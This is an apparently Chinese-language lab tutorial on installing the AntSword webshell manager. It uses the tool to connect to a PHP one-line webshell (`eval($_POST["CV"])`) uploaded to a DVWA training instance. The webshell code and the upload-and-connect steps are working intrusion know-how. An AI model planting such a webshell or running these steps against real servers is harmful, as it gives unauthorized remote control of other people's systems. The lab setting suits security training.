# 二、蚁剑  
蚁剑GitHub获取：  
蚁剑：[https://github.com/AntSwordProject/antSword](https://github.com/AntSwordProject/antSword)  
蚁剑加载器：[https://github.com/AntSwordProject/AntSword-Loader](https://github.com/AntSwordProject/AntSword-Loader)

## 0x00_ 目标

1. 能掌握蚁剑基本使用即可。

## 0x01_蚁剑的使用方法  

##### a. 安装配置蚁剑  

进入GitHub，先下载蚁剑安装包  
以下载蚁剑加载器列：  
访问地址：https://github.com/AntSwordProject/AntSword-Loader  
在网页右侧有Releases栏，点击进入  

  

在发布版本中找到适合自己系统的版本，下载：  

  

安装过程只管下一步就好，在此省略。  
在安装过程中，可以同步下载蚁剑源码，建议如同加载器类似，在发布版本中下载源码。  
加载器安转完成后打开：  

  

点击初始化，在文件夹中选中蚁剑源码：  

   

到此蚁剑配置完成。  

##### b. 蚁剑连接木马

文件上传详细步骤请参考“一、菜刀”，本次上传源码为：  

> <?php eval($_POST["CV"]); ?>  

   

上传木马后，网站返回如下，可得连接地址：http://192.168.56.101/dvwa/hackable/uploads/tmp.php  

   

返回蚁剑，在数据管理列表中右键，然后选择“添加数据”  

   

配置木马地址和密码：  

   

在请求信息中添加cookie信息，然后点击添加：  

   

在生成的数据管理列表中双击即可连接木马：  

   
   

-------------

### 推广：  

欢迎加入本人的QQ技术讨论群（CV技术讨论群）：736342355  
**CV，尽力做最专业的Ctrl+C、Ctrl+V的姿势搬运工。**